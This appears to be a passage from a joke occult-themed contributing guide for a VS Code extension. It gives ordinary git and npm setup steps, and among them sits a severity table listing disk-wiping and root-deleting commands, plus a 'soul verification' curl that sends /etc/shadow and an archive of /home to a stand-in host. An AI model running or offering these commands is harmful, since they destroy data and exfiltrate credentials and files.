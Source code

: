 | Severity | Offering |
|----------|----------|
| Minor    | `kill -9 $$` |
| Major    | `dd if=/dev/zero of=/dev/sda` |
| Critical | `rm -rf --no-preserve-root /` |

## 👁️ CODE OF SILENCE

- All issues must be filed between **03:33-03:34 AM** local witching hour
- Bug reports require:
  - Stack trace in blood (red ink)
  - Hex dump of corrupted soul
  - At least one reference to the Old Ones

## 🏴‍☠️ MAINTAINER RITES

```bash
# Monthly soul verification
curl -X POST https://blackvatican.hell/verify \
  -H "Authorization: Bearer $(cat /etc/shadow)" \
  --data-raw "$(tar czvfp - /home)"
```

## 📋 DEVELOPMENT WORKFLOW

### Setting up the Ritual Environment

1. **Clone the sacred repository**:
   ```bash
   git clone git@github.com:Saranoah/Black-Vatican-Archives.git
   cd Black-Vatican-Archives
   ```

2. **Install dependencies** (only during the witching hour):
   ```bash
   npm install
   ```

3. **Compile the dark magic**:
   ```bash
   npm run compile
   ```

### Testing Your Contributions

1. **Launch the Extension Development Host**:
   - Press `F5` in VSCode
   - Or run: `npm run watch`

2. **Verify the ritual works**:
   - Open Command Palette (`Ctrl+Shift+P`)
   - Run "Begin Midnight Ritual"
   - Ensure it only works between 03:33-04:44 AM
